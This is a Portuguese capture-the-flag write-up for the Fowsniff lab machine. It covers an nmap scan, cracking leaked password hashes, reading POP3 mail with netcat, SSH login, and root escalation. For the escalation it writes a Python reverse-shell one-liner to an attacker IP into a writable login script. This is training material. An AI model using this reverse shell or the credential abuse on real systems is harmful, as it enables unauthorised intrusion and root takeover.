










# _**Fowsniff CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Pesquisando no Google sobre a companhia <mark>Fowsniff Corp</mark>, encontramos um link no Github com hashes de senhas  
Além disso, mais informações estão disponíveis na página  
Vamos tentar quebrá-las com <mark>hashkiller</mark>  



## _**Ganhando acesso**_

Após, vamos realizar login no serviço POP3 via ```nc```
> ```bash
> nc [ip_address] [pop3_port]
> ```


Conseguimos informações confidenciais e importantes  



Pelas dicas do primeiro e-mail, vamos realizar login via SSH



## _**Escalando privilégios**_

Pela dica, podemos pesquisar pelo arquivo _cube.sh_



Este arquivo parece ser a mensagem de login quando realizamos via SSH  
E que pode ser editada por nós!  



Vamos executar o seguinte comando para conseguirmos obter uma _shell_:
> ```bash
> echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'" > /opt/cube/cube.sh
> ```

Após, basta sair da conexão SSH, criar um _listener_ com ```netcat```, e em seguida, realizar login via SSH novamente  



Após, basta procurar pela flag em /root


